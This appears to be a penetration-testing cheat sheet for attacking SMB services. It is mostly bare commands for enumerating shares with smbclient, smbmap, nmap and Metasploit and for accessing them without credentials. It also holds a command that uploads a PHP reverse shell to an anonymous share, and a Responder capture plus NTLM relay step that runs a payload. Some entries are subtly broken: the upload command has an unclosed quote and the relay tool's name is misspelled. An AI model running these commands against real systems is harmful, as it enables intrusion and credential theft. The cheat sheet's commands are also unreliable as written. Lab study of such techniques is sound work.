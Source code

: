 ```yaml
---
description: Server Message Block - Ports 445/139
icon: database
---
```


# SMB

<details>

<summary><mark style="color:orange;"><strong><code>smbclient</code></strong></mark></summary>

{% hint style="info" %}


#### <mark style="color:red;">`Without Credentials`</mark>

{% code title="List Resource list" %}
```sh
smbclient -L <IP>
```
{% endcode %}

{% code title="List Null session" %}
```sh
smbclient -N <IP>
```
{% endcode %}

{% code title="List User Share" %}
```sh
smbclient //IP/<SHARE> -U <USER>
```
{% endcode %}

{% code title="Connect to share" %}
```sh
smbclient -N \\\\IP\Share
```
{% endcode %}

{% code title="Without Credentials" %}
```sh
smbclient --no-pass //IP/<Share>
```
{% endcode %}

{% code title="Resources list + Null session" %}
```sh
smbclient -L \\10.10.10.123 -N
```
{% endcode %}

{% code title="Upload PHP reverse shell" overflow="wrap" %}
```sh
smbclient -N //10.10.10.123/Development -c 'put cmd.php tokyo.php
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:red;">`Download a File`</mark>

{% code title="Type this sequence" overflow="wrap" lineNumbers="true" %}
```sh
recurse
prompt
mget *
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Enumeration</strong></mark></summary>

{% code title="Nmap Scripts" %}
```sh
nmap --script smb-enum-shares.nse -p445 10.10.10.123
```
{% endcode %}

{% code title="Metasploit Module" %}
```sh
use auxiliary/scanner/smb/smb_enumshares
```
{% endcode %}

{% hint style="info" %}
#### <mark style="color:orange;">**`smbmap`**</mark>

{% code title="Connect to host" %}
```sh
smbmap -H <IP>
```
{% endcode %}

{% code title="Connect with credentials" overflow="wrap" %}
```sh
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'
```
{% endcode %}

{% code title="List Share" %}
```sh
smbmap -H <IP> -r <SHARE>
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>SAMBA</code></strong></mark></summary>

{% code title="Download file" overflow="wrap" %}
```sh
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```
{% endcode %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>NTLM</code></strong></mark> <mark style="color:purple;"><strong>Relay Attacks</strong></mark></summary>

{% hint style="danger" %}


{% code title="Capture the Hash" %}
```bash
responder -I eth0 -dwv
```
{% endcode %}

{% code title="Relay the hash" %}
```bash
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>
```
{% endcode %}
{% endhint %}

</details>
